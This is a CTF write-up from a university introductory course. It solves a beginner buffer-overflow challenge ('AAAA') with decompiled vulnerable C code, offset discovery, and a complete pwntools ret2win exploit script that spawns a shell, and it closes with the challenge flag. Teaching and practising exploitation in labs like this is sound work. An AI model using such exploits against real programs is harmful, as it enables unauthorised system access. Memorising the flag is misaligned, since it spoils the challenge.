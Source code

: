 ```yaml
---
title: "AAAA - Writeup | URJC CTF Course"
layout: post
author: Jorge Moreno
---
```

This challenge is part of an [introductory CTF course](urjc-introductory-ctf) organized by students of Universidad Rey Juan Carlos.

## Challenge Description
---

> ¡Ups! Parece que me he olvidado una opción que no debería aparecer en el programa que he creado como cliente de correo. Menos mal que es super seguro, ¿a que sí? 
  
Challenge Author(s): [David Billhardt](https://twitter.com/t0ct0u)  
Official Writeup: [AAAA.pdf](images/beginner-bof-wu/AAAA.pdf)   
Category: **Binary Explotation**  
Difficulty: **Very Easy**  
Challenge Files: [AAAA.zip](images/befinner-bof-wu/AAAA.zip)  

## TL;DR

---

This challenge is an standard ret2win. We overflow the buffer into overriding the RIP and jumping to the win function to spawn a shell.

## Challenge Solution

---

First thing we are going to do is analyze the file with the ``file`` and ``checksec`` commands:

![Untitled](images/beginner-bof-wu/Untitled.png)

![Untitled](images/beginner-bof-wu/Untitled%201.png)

As we can see the only relevant restriction this binary has is the No eXecute bit. Which disallows us to execute any shellcode inside the stack.

After analyzing the different functions the program we see that it is a binary that shows us a menu to log in, print the name of the user, and send a message. After the decompilation we can see 2 important things:

- A function ``rce()`` that spawns a shell

```c
void rce(void){
		system("bin/sh");
		return;
}
```

- And the function ``enviar()`` that sends a message to an specific user

```c
void enviar(void)

{
  undefined message [208];
  undefined name [32];
  
  printf(&DAT_004020e0); // Prompts for the name
  __isoc99_scanf(&%20s,name);
  puts(&DAT_00402108); // Prompts for the message
  __isoc99_scanf("%s",message);
  printf("Mensaje enviado a %s",name);
  return;
}
```

The first ``scanf()`` only receives up to 20 characters, but the second one has no limit so it is vulnerable to **Buffer Overflow**. We are going to test this by sending to the program a bunch of A’s.

![Untitled](images/beginner-bof-wu/Untitled%202.png)

The program crashes because we overflow the buffer up to the RSP so after the ``ret;`` instruction it tries to jump into the address ``0x6161616161616161 (AAAAAAAA)``.

We are going to use pwndbg’s ``cyclic`` command to get the offset and override the first rsp bytes with the address of the ``rce()`` function.

![Untitled](images/beginner-bof-wu/Untitled%203.png)

![Untitled](images/beginner-bof-wu/Untitled%204.png)

Then we need to get the address of the ``rce()`` function. We can do this with pwntools.

![Untitled](images/beginner-bof-wu/Untitled%205.png)

Full script:

```python
#!/usr/bin/python3

from pwn import *

exe = context.binary = ELF(args.EXE or './AAAA', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

offset = 248
rce_addr = exe.symbols.rce
ret = 0x000000000040101a # For stack aligning purposes

io = start()

payload = b"A" * offset
payload += flat(ret)
payload += flat(rce_addr)

io.sendlineafter(b'>', b'3') # Option
io.sendlineafter(b'>', b'a') # Name
io.recvline() # We do this because the prompt has a special character that pwntools doesn't work well with.
io.sendline(payload) # Payload

io.interactive()
```



**FLAG -- HackOn{c0MM0n_ret2wIN_1s_ez}**